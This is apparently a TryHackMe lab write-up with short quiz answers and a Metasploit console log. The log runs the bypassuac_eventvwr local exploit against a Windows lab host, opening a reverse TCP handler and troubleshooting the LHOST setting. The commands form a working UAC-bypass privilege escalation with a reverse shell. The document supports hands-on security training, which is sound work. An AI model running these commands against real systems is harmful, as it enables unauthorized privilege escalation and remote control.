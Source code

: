 7. No answer needed

8. No answer needed

9. No answer needed

10. Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`
```
LHOST
```

11. No answer needed
12. No answer needed
13. No answer needed


Originally had an issue executing the local bypassuac payload as I was setting the wrong LHOST, or rather, setting it the wrong way.

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_eventvwr 


msf5 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf5 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1

msf5 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.2.13.68
LHOST => 10.2.13.68
msf5 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 192.168.1.198:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Cleaning up registry keys ...
[*] Exploit completed, but no session was created.
```
After a cursory search, I found that I was actually supposed to specify "tun0" when setting the LHOST.  
```
msf5 exploit(windows/local/bypassuac_eventvwr) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.2.13.68:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
```